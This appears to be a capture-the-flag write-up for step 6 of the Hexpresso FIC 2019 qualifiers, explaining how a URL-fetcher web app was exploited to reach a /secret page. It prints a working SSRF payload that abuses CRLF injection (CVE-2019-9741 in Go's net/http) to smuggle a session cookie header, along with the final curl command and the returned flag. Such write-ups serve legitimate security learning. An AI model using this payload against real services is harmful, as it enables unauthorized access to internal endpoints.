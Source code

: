 ```yaml
---
title: "Hexpresso FIC Quals 2019: Step 6"
slug: hexpresso-fic-6
date: 20/12/2019
---
```


The sixth step is a WEB application that allows us to fetch an URL.

![Introduction](/assets/hexpresso-fic-quals/step6/intro.png)

In the source code of the page we can read:

```html
<div class="col s12">
    <!-- <span>PS: To get your flag go here: <a href="/secret">/secret</a></span> -->
</div>
```

So, our objective is to access `/secret`. Let's see:

![Secret](/assets/hexpresso-fic-quals/step6/secret.png)

Coming from `127.0.0.1` should not be a big deal using the URL fetcher
itself, right? This challenge really looks like a standard SSRF anyways...

![Not so easy](/assets/hexpresso-fic-quals/step6/not_so_easy.png)

*Note: we must add a GET parameter because the script appends
`:80/` at the end of the URL. We could deal with it but its more convenient
to totally absorb it.*

It seems that `0.0.0.0` is reachable. We should now be coming from `127.0.0.1`
but there is something else. We are missing the `GOSESSION` cookie.

I tried to trick the applicaion for some time but the problem is clear: we
have to control the body of the query that the URL fetcher performs in order to
add the cookie.

At this point, I was very sad and did not know what to do. I was about to
give up when my teammate [Plean](https://twitter.com/plean702) sent me
[this link](https://github.com/golang/go/issues/30794).

[CVE-2019-9741](https://nvd.nist.gov/vuln/detail/CVE-2019-9741) is a CRFL
injection, in the `net/http` package of Go (version 1.11). It is exactly
what we need as it allows to write the body of the query.

I tweaked the example payload of the GitHub (see the link above) issue and
came up with this:

```
0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc
```

A bit more readble:

```
0.0.0.0/secret?b= HTTP/1.1\r
Cookie: GOSESSION=abc
```

The original body will still be present, after ours, but it does not matter.

Because we have to deal with CRLFs, it is easier to urlencode the payload.
However, the URL fetcher interface does not handle it well. We can use `curl`
instead:

Final command:

```
$ curl 'http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr/host?host=0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc%0d%0aSHIT:%20123' | jq -r ".content" | base64 -D
{"ok":true,"message":"Ok here is your flag ...","flag":"Gg ! Send mail here 9ca37832b9fb80-penultimate-stage@hexpresso.fr ! But there is one last step here for the brave available on : https://ctf.hexpresso.fr/219058289d8699adc0b119374c2fc5bc"}
```

I took a break at this point but my teammate Shiro continued on step 7. Please,
take a look at [his writeup](https://github.com/Pycatchown/writeUps/blob/master/FIC/step7/wu_step7.md).
